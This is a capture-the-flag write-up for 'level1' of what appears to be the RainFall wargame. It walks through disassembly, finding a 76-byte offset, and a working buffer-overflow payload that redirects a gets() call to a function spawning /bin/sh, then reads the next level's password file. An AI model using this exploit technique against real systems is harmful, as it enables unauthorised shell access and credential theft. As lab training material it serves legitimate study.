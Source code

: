 # Level1

## Basic Info
```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
## Testing the program

```bash 
level1@RainFall:~$ ./level1 
hello
level1@RainFall:~$ ./level1 
423
```

We have an executable that quits after given an argument. 

## Analysing the program

```bash 
info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
```

There are two functions main and run. 

### Main
```bash 
disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```

We allocate 0x50 (80 in decimal) bytes on the stack with 'sub'. 
Then 'lea' and 'mov', calculate the address of the variable located at esp + 0x10 and puts that address as argument for the 'gets()' call. 

### Run

```bash
Address	        Instruction	            Explanation
0x08048444	    push %ebp	            Save base pointer
0x08048445	    mov %esp, %ebp	        Set up new stack frame
0x08048447	    sub $0x18, %esp	        Reserve 24 bytes on the stack
0x0804844a	    mov 0x80497c0, %eax	    Load a global variable (possibly stdout or a string)
0x0804844f	    mov %eax, %edx	        Copy it into EDX
0x08048451	    mov $0x8048570, %eax	Load address of a string to print (format string?)
0x08048456–0x0804846a	                Prepare arguments for fwrite()
```

The run() function :
Displays a message with fwrite()
Executes a system command /bin/sh but it is never called in main


## Getting access to the shell 

We are going to do a [buffer overflow](https://www.youtube.com/watch?v=1S0aBV-Waeo) in the main, so that the return address is the address of the run() function which will call /bin/sh giving us access to a terminal where we will be able to call cat on the .passwd file. 

Let's [generate a unique pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset

```bash 
(gdb) set args < <(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
(gdb) run
Starting program: /home/user/level1/level1 < <(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

```
0x63413563 --> Offset is 76
The last 4 bytes of the payload will be the address of the function "run" for calling it instead of EIP
The address of the "run" function is "0x08048444" has seen above, that we will convert to little endian

```bash
$ python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
$ cat /home/user/level2/.pass
***************************************
```

We have access let's [script it](./Ressources/exploit.py)! 
